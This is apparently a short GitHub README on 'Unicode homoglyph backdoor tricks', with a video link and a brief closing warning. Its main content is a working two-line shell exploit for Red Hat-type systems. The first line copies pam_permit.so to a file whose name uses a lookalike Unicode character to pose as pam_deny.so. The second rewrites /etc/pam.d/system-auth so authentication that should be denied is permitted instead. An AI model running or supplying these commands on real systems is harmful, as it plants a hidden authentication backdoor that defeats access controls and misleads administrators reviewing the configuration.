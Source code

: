 Unicode homoglyphs backdoor tricks
======================

"*...The Unicode character set contains many strongly homoglyphic characters. These present security risks in a variety of situations...*" (Wikipedia)

**Video**

<a href="http://www.youtube.com/watch?feature=player_embedded&v=Os0QKZgvE_I" target="_blank"><img src="http://img.youtube.com/vi/Os0QKZgvE_I/0.jpg" alt="Messing around with homoglyphs - pam_deny.so" width="480" height="360" border="10" /></a>

**Exploit**

*redhat and derivates*

```shell-session

cp -av /lib*/security/pam_permit.so  /tmp/pam_de$'\xd5\xb8'y.so
sed -i 's/deny.so/de\xd5\xb8y.so/g' /etc/pam.d/system-auth

```

Homoglyph could be dangerous! Keep your eyes open! O.O

